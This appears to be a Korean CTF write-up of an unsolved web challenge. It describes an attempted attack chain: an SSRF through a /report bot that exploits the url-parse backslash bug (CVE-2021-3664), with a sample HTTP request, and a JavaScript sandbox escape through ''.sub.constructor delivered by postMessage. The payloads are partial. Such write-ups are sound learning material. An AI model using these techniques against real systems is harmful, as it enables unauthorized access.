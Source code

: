 
## ~~WEB2~~

> 이 문제는 플래그를 얻지 못했습니다. 시도한 과정을 설명하겠습니다.

1. Parser bypass to ssrf

플래그를 얻기 위해서는 (1) 로그인을 해야 하고, (2) 관리자 계정으로 로그인해야 합니다.
이때 로그인 정보는 `jwt`로 관리됩니다.

하지만 비밀키를 알 수 있는 방법이 없으므로, 로그인해야 합니다. 사용자 로그인과 관련된 `/accounts` 경로에 접근하기 위해서는 로컬에서 접근해야 합니다(`/routers/account.js:isLocal()`). `/report`엔드포인트를 이용해 내부에서 작동하는 봇이 원하는 경로를 읽게 할 수 있지만 필터링이 걸려있습니다.

[한 포스팅](https://huntr.dev/bounties/1625557993985-unshiftio/url-parse/)을 참고해서 페이로드를 작성했습니다.  [CVE-2021-3664](https://nvd.nist.gov/vuln/detail/CVE-2021-3664)로 등록된 내용입니다.

> `\`(백슬래시)를 브라우저는 슬래시와 마찬가지로 처리하지만, `url-parse`모듈에서는 이를 상대경로 표시자로 해석해서 잘못 파싱되는 점을 이용하는 공격입니다.

Payload:
```
POST /report HTTP/1.1
Host: 9t.vc
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 33

url=http:/\[REDACTED]/
```
* requestbin등의 상용 웹훅 서비스는 https 프로토콜을 사용해서, http로 작동하는 문제 서버에 `iframe` 을 참고하려고 하니  `mixed content error` 가 발생했습니다. 따라서 인증서 없이 http로 작동하는 개인 서버를 사용했습니다.

2. JS Sandbox Escape

CORS를 피하기 위해, 서버 도메인에서 작동하는 서비스가 필요합니다. `/sandbox`엔드포인트에 접근하면 자체 정의된 `safeEval`함수를 이용해 사용자의 명령을 실행하는 페이지를 사용할 수 있습니다. 이 페이지를 `iframe`으로 받아온 후, `postMessage`로 원하는 코드를 전송했습니다.

`safeEval`함수는 `proxy`를 정의해서 기본 정의된 `eval`, `console`등의 함수 context를 없애서 *referenceError*를 발생시키는 방법으로 **안전한** Eval을 실행합니다. [한 블로그](https://blog.p6.is/bypassing-a-js-sandbox/)를 참조해서 샌드박스를 우회했습니다:

`proxy`를 통해 context를 없애더라도, `String`, `Array`등의 자료형 자체를 없애버릴수는 없습니다.
=> `String`의 상속 체인을 따라 올라가며 `constructor`를 호출하는 방법을 이용해 원하는 샌드박스를 무력화할 수 있었습니다.

Payload:
```javascript
document.querySelector('iframe').addEventListener("load", function() {
	document.querySelector('iframe').contentWindow
                .postMessage(`"".sub.constructor(\\\`
                ...
                (js code here)
				...
				\\\`)()`, '*');
});

```

[ `javscript:` 로 시작하는 경로를 사용해서 임의의 코드를 실행하는 방법](https://superuser.com/questions/236085/with-chrome-how-to-use-the-the-javascript-url-pseudoprotocol)도 시도했으나, 필터링에 `http:`로 시작할 것을 요구하는 정규표현식이 있었기 때문에 실패했습니다.

